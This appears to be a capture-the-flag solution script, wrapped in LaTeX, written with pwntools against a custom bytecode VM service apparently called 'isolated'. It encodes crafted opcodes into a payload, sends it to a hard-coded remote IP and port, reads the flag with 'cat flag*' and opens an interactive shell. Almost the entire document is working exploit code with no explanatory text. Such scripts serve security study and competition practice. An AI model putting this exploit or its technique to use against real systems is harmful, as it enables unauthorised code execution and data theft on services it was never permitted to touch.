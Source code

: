 \documentclass{article}
\begin{document}
\begin{lstlisting}
    from pwn import *
    def push(val):
        return p8(0)+p32(val)
    def pop():
        return b'\x01'
    def div(v1,v2):
        return p8(5)+b'f'+p32(v1)+b'f'+p32(v2)
    def log(v):
        return p8(10)+p8(0x66)+p32(v)
    def eee(idx,val):
        # cmp + je
        return p8(6)+b'U'+b'f'+p32(val)+p8(8)+b'f'+p32(idx)
    def eax(idx):
        # cmp + je
        return p8(6)+b'f'+p32(0)+b'U'+p8(8)+b'f'+p32(idx)
    def add(v1,v2):
        return p8(2)+b'f'+p32(v1)+b'f'+p32(v2)
    def safe_show2():
        return p8(6)+b'U'+b'U'
    def hangup(off):
        return p8(7)+p32(off)
    #context.log_level='debug'
    #p= process("./isolated")
    p=remote("3.38.234.54",7777)
    #p=remote("0.0.0.0",7777)
    sa = p.sendafter
    def loopn(n):
        res = b''
        for x in range(n):
            res+=safe_show2()
        return res
    pay  = log(1)+push(0)+log(1)+pop()+pop()+pop()+pop()
    pay += b'\x09'+eax(len(log(0)))
    pay += loopn(37-9)+p8(6)+b'Uf'+p32(0x132)
    pay += p8(2)+b'U'+b'f'+p32(0x8997c)+safe_show2()
    pay += log(1)+hangup(len(pay))
    
    sa("opcodes >",pay.ljust(0x300,b'\x0f'))
    sleep(1)
    p.read()
    p.send(b"cat flag*\n")
    p.interactive()

\end{lstlisting}
\end{document}

